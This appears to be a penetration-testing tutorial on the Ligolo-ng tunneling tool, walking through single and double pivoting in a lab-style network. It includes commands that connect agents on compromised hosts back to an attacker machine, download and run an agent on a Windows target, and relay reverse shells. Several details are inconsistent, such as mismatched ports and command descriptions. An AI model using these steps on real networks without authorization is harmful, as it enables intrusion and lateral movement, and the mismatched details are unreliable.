


# Introduction
::github{repo="nicocha30/ligolo-ng"}
Ligolo-ng is a modern, lightweight, and high-performance tunneling tool designed for penetration testers and red teamers. Its primary purpose is to enable secure, reliable, and efficient reverse tunneling and network pivoting during internal network assessments. Unlike traditional tools that rely on SOCKS proxies, Ligolo-ng creates a TUN (network tunnel) interface, making network routing simple, seamless, and fast.

Originally developed by Nicolas Chatelain, Ligolo-ng lets you establish tunnels from compromised systems back to your attacking machine using encrypted TCP/TLS connections. This approach not only helps bypass network restrictions, such as firewalls and NAT, but also allows you to interact with internal network resources as though your own system were directly connected. With features like automatic certificate management, support for multiple platforms, and advanced multiplexing to optimize bandwidth, Ligolo-ng has quickly become a go-to tool for lateral movement, reconnaissance, and stealthy operations within target environments.

In this guide, you'll learn how to set up Ligolo-ng from scratch, create a tunnel between attacker and target, and even transfer files efficiently and covertly through the established connection.

# **Setting Up** Ligolo**-ng**

Ligolo-ng provides precompiled agent and proxy binaries for various platforms (Linux, Windows, MacOS, BSD) in every release. You can always obtain the latest version from the official [Ligolo-ng releases page](https://github.com/nicocha30/ligolo-ng/releases).



## **Organizing for** Multiple **OS**

It's recommended to create a clean directory structure to store the agents for both Linux and Windows:

```bash
mkdir -p ligolo-ng/linux
mkdir -p ligolo-ng/windows
```

## **Downloading the Binaries**

:::important
From the [releases page](https://github.com/nicocha30/ligolo-ng/releases), right-click on the links for the latest version’s agent and proxy binaries and use `wget` or `curl` to download them into your directories. For example, for version 0.8.2:
:::

```bash
# Download Linux amd64 agent
wget -P ligolo-ng/linux https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
tar -xzf ligolo-ng/linux/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz -C ligolo-ng/linux

# Download Windows amd64 agent
wget -P ligolo-ng/windows https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip
unzip ligolo-ng/windows/ligolo-ng_agent_0.8.2_windows_amd64.zip -d ligolo-ng/windows/
```

**Repeat for the proxy** as needed for your attacking platform (most commonly Linux or Windows):

```bash
# Download Linux amd64 proxy
wget -P ligolo-ng/linux https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz
tar -xzf ligolo-ng/linux/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz -C ligolo-ng/linux
```

**Clean up unnecessary archives (optional):**

```bash
rm ligolo-ng/linux/*.tar.gz
rm ligolo-ng/windows/*.zip
```

**Resulting Directory Structure:**

```
ligolo-ng/
├── linux/
│   ├── agent
│   └── proxy
└── windows/
    └── agent.exe
```

:::tip
Always check the [latest release](https://github.com/nicocha30/ligolo-ng/releases/latest) for version numbers and copy the actual file links for your target platform.
:::

Now you have a tidy setup with all the required binaries organized for both Linux and Windows agents. You’re ready to proceed with configuration and usage!

# Scenario Overview - Single Pivoting

To illustrate the practical use of Ligolo-ng in a penetration testing engagement, consider the following environment depicted in the diagram below:



In this setup, the attacker’s Kali Linux machine (`10.10.14.7`) is able to connect to the public interface of the Linux target (`10.129.94.231`). The target also has access to an internal network segment through its second interface (`192.168.2.5`).

By deploying Ligolo-ng, the attacker can create a secure tunnel through the target. This tunnel allows the attacker to pivot into the internal network, gaining access to resources behind the gateway machine—just as a real attacker might do during a lateral movement phase in a penetration test.

## **Establishing the Ligolo-ng** Tunnel

### **1. Start the Proxy on the Attacker** Machine

Begin by launching the `Ligolo-ng proxy` on your Kali Linux attacker machine. The `-selfcert` option tells Ligolo-ng to automatically generate a self-signed certificate for secure TLS communication.

```bash
sudo ./proxy -selfcert
```

This command starts the proxy and listens for incoming agent connections, using TLS encryption for greater security.


### **2.** Transfer **and Set Up the Agent on the Target Machine**

Next, transfer the appropriate `Ligolo-ng agent` binary (matching the target's OS and architecture) to the Linux target machine. Tools such as scp, wget, or curl can be used for this transfer, depending on what’s available in your environment.

Once the agent is on the target, start it with the following command, ensuring you specify the attacker’s IP address and the listening port (`default: 11601`):

```bash
./agent -connect 10.10.14.7:11601 -ignore-cert
```

- `connect 10.10.14.7:11601` tells the agent where the proxy is running.
- `ignore-cert` allows the agent to accept the self-signed certificate generated by the proxy.


Once the agent connects, you’ll see a message indicating that a new agent has joined. You can then enter the Ligolo-ng interactive console to manage your sessions:

```bash
session
```

This will list all available sessions. Select your active session (using the `number` or `arrow keys`).


To access the internal `192.168.2.0/24` network, create a tunnelled interface and add a route as follows:

```bash
interface_create --name Internal
route_add --name Internal --route 192.168.2.0/24
tunnel_start --tun Internal
```

- `interface_create --name Internal` creates a new virtual network interface labeled "Internal."
- `route_add --name Internal --route 192.168.2.0/24` configures routing so that traffic destined for the internal subnet is directed through this interface.
- `tunnel_start --tun Internal` initiates the tunnel, enabling seamless communication with the internal network.


With these steps completed, you are now positioned to explore and interact with assets within the `192.168.2.0/24` subnet through your secure Ligolo-ng tunnel—a fundamental technique for effective lateral movement and internal network assessment during penetration testing.

# Listeners

Ligolo-ng provides a powerful listener feature that allows you to bind ports on the agent (target) and redirect connections through your proxy. This is particularly useful for capturing reverse shells, relaying RDP sessions, or transferring files from internal network hosts.

## Adding a Listener

Within the active Ligolo-ng session, you can add a listener like so:

```bash
listener_add --addr 0.0.0.0:1234 --to 10.10.14.7:4321 
```

- `-addr 0.0.0.0:1234` directs the agent (running on the target within the internal network, such as an IP in `192.168.2.0/24`) to listen for incoming connections on all its interfaces at port 1234.
This means any machine that can reach the agent on port 1234 can
connect.
- `-to 127.0.0.1:4321` tells Ligolo-ng to forward (bind) any traffic received on `0.0.0.0:1234` at the agent side to `10.10.14.7:4321` on the attacker’s host.


## Typical Use Cases

- **Reverse Shells:** Listeners allow you to capture incoming reverse shell connections from machines within the internal network.
- **File Relays:** You can route file transfer traffic through a port bound to your proxy, enabling seamless file movement across networks.
- **Exposing Services**: Listeners enable access to internal services such as HTTP, SMB, or RDP by forwarding those ports externally via the tunnel, facilitating post-exploitation tasks.

:::note
If your attacker machine is not directly reachable from the internal network—due to firewall restrictions or routing policies—the listener setup becomes especially valuable. Machines inside the internal subnet (e.g., 192.168.2.0/24) can initiate connections to the agent’s listening port (e.g., port 1234), and you will receive these connections on your local machine (e.g., port 4321) as though you were connected inside the internal network.
:::

This powerful listener capability significantly enhances Ligolo-ng’s flexibility, allowing you to handle a wide range of internal services or connections that you need to pivot or relay. All of this is achieved through a single, unified tunneling infrastructure.

With listeners configured, you can effortlessly capture shells, transfer files, or access internal services as if you were directly connected to the network, enabling efficient and stealthy lateral movement during penetration testing.

# Scenario Overview - Double Pivoting


After compromising the Windows target (`192.168.2.8`) from the Linux pivot, the next objective is to establish further access into deeper network segments. This is achieved by transferring and executing the Ligolo-ng agent on the newly reached Windows host.

## **Prepare to Transfer the Agent**

Create a Ligolo-ng listener on the Linux target to forward requests for the agent binary back to your attacker machine:

```bash
listener_add --addr 0.0.0.0:8000 --to 10.10.14.7:8000
```

This will forward traffic from the Linux target’s port 8000 to the attacker's port 8000, allowing you to serve the agent binary for download.

## Download the Agent on the Windows Target

On the Windows system, use PowerShell to download the agent from the Linux target’s internal interface:

```bash
Invoke-WebRequest -Uri "http://192.168.2.5:8000/agent.exe" -OutFile agent.exe
```

## Set Up a Listener for the New Agent Session

Next, create another listener for the Ligolo-ng agent to connect from Windows, relaying it back to the attacker's Ligolo-ng proxy:

```bash
listener_add --addr 0.0.0.0:11601 --to 10.10.14.7:11601
```


- The `--addr 0.0.0.0:11601` part tells the Ligolo-ng agent (running on the target machine) to listen on all network interfaces at port 11601. The IP `0.0.0.0` is a special address that means "listen on every available interface" of the agent, ensuring it accepts connections regardless of which internal IP receives the traffic.
- The `--to 10.10.14.7:11601` part specifies the destination address and port to which any incoming connections on the agent will be forwarded. Here, `10.10.14.7:11601` is the attacker machine's IP and port where the Ligolo-ng proxy is listening.

## Start the Agent on the Windows Target

Execute the agent on the Windows host, specifying the Linux target’s internal interface as the connection point:

```bash
./agent.exe -connect 192.168.2.5:11601 -ignore-cert
```


## Establish the New Tunnel

Once the session is visible in the Ligolo-ng interface, select it:

```bash
session
```

## Configure Internal Network Access

Create a new tunnel interface, add a route to the next internal segment, and start the tunnel:

```bash
interface_create --name Internal2
route_add --name Internal2 --route 192.168.3.0/24
tunnel_start --tun Internal2
```


You now have access to the `192.168.3.0/24` network segment through a double pivot (`attacker → Linux target → Windows target`), enabling through internal network exploration and assessment.

This same listener setup process can be repeated as many times as needed to achieve multiple pivoting within complex network environments. By chaining listeners and agents across successive internal hosts and subnets, you can traverse segmented networks layer by layer, expanding your reach and maintaining full control throughout the engagement.

Each pivot point acts as both a relay and a gateway, forwarding traffic back to your attacker machine through secure Ligolo-ng tunnels—enabling advanced lateral movement, deep internal reconnaissance, and flexible post-exploitation workflows.

# Accessing Services on the Agent's Localhost (127.0.0.1)

In some advanced internal scenarios, you may need to reach services that are bound only to the loopback interface of a deeply nested host—for example, an `Internal IIS Server` running on `127.0.0.1:8765` on the Windows target (`192.168.2.8` / `192.168.3.9`). Ligolo-ng makes this possible through careful listener and tunnel configuration:


## **Configure the Tunnel to Access the Local Web Service**

In the Ligolo-ng session, create an interface and route that targets the `local IIS serve`r bound only to loopback (`127.0.0.1:8989`):

```bash
interface_create --name InternalWeb
route_add --name InternalWeb --route 240.0.0.1/32
tunnel_start --tun InternalWeb
```

Using a dummy route like `240.0.0.1/32` is a common trick to direct traffic at the loopback service via the tunnel.

## Access the Internal Service

With this configuration, any requests made to `240.0.0.1:8765` on your attacker machine will be routed through all pivots and reach the internal IIS service at `127.0.0.1:8765` on the Windows target—giving you full access as if you were local to that host.


### Summary:

By chaining listeners and agents, Ligolo-ng empowers you to reach even those internal services restricted to an agent’s localhost interface, letting you unlock the deepest layers of a network during your assessment.

# Ligolo-ng Command Cheat Sheet

This cheat sheet provides quick reference commands for setting up and using **Ligolo-ng** during internal network pivoting.

## Ligolo-ng Proxy (Attacker Side)

### Start the Ligolo-ng Proxy

```bash
sudo ./proxy -selfcert
```

Starts the Ligolo-ng proxy using a self-signed certificate. This listens for incoming agent connections and provides a SOCKS5 proxy.

## Ligolo-ng Agent (Victim Side)

### Start the Agent and Connect to the Proxy

```bash
./agent -connect $IP:$PORT -ignore-cert
```

Connects the agent to the attacker’s proxy server at `$IP:$PORT`. `-ignore-cert` is used if the proxy is using a self-signed certificate.

## Interface Management

### Create a Virtual Tunnel Interface

```bash
interface_create --name $INTERFACE_NAME
```

Creates a virtual interface (TUN device) that will be used for routing traffic through the tunnel.

### Delete the Virtual Interface

```bash
interface_delete --name $INTERFACE_NAME
```

Deletes the specified virtual tunnel interface.

## Route Management

### Add a Route via the Tunnel Interface

```bash
route_add --name $INTERFACE_NAME --route $INTERFACE
```

### Remove a Route

```bash
route_del --name $INTERFACE_NAME --route $INTERFACE
```

## Tunnel Control

### Start the Tunnel

```bash
tunnel_start --tun $INTERFACE_NAME
```

Starts tunneling traffic via the specified tunnel interface.

## Listener Management

### Add a TCP Forwarding Listener

```bash
listener_add --addr $IP:$PORT --to $IP:$PORT
```

Forwards traffic from the local address and port to a remote internal address and port.

### List Active Listeners

```bash
listener_list
```

Stops a specific listener using its index number.

## Miscellaneous

## Enable Auto Route

```bash
autoroute
```

Automatically adds routes for known internal networks.

### Show Interfaces

```bash
ifconfig
```

Displays interface information and IPs.

# Reference

- 🔗 [Ligolo-ng GitHub Repository](https://github.com/nicocha30/ligolo-ng)
- 📖 [Ligolo-ng Official Documentation](https://docs.ligolo.ng/)

# Feedback

If you find any mistakes or have suggestions for improvement, feel free to contact me. I appreciate constructive feedback and aim to keep this content accurate and helpful.

Thank you for reading! 🙌